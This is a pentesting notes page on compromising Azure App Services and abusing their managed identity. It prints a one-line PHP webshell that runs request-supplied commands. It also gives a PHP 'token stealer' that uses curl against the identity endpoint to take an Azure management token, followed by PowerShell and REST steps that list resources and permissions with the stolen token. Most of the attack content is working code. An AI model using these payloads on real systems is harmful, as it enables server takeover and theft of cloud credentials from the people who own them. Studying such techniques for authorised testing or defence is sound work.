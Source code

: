 # App Service

## App services

> Different sort of vulnerabilities can be found such as SQLi, file upload, commands injection etc.
>
> App services are most of the time running under \*Low privilege\*, restricting the impact of an attack.
>
> In some case, Management Identity in place on a App Service :&#x20;
>
> Ex: A user upload a file on an App Service and the App Service is moving the file on a VM.
>
> An Azure role has maybe created to handle the task.
>
> If we have able to compromise this Manage Identity account, we can abuse his privileges, e.g. connect to a Database, Execute commands on a Virtual Machine etc ..

### Manage Identity

> Once an App service is compromised, we can confirm if Management Identity is in place.

#### ENV variables

> If the following variables are listed in the ENV variables, MI is in place
>
> * **IDENTITY\_HEADER**
> * **IDENTITY\_ENDPOINT**

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

> Once the 2 variables token stolen, it is possible to request a token !

```bash
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

## Common Web APP vulnerabilties

### Classic file upload

* Webshell  phtml instead of doc ..

```php
<?php
system($_REQUEST['cmd']);
?>
```

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>simple webshell</p></figcaption></figure>

* token stealer

```php
<?php

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>
```

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### Using the stolen token



```bash
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

* check the roles (using the clientID and JWT)

```powershell
PS C:\Tools\Az> import-module az
PS C:\Tools\Az> Connect-AzAccount -AccessToken $token -AccountId <clientID>
PS C:\Tools\Az> Get-AzResource
PS C:\Tools\Az> 

```

<figure><img src="../../../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>



OR



```powershell
$URI = 'https://management.azure.com/subscriptions/<CLIEND-ID>/resourceGroups/Engineering/providers/Microsoft.Compute/virtualMachines/bkpadconnect/provide
rs/Microsoft.Authorization/permissions?api-version=2015-07-01'

PS C:\> $RequestParams = @{
>> Method = 'GET'
>> Uri= $URI
>> Headers = @{
>> 'Authorization' = "Bearer $Token"
>> }
>> }
PS C:\> (Invoke-RestMethod @RequestParams).value



```

<figure><img src="../../../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

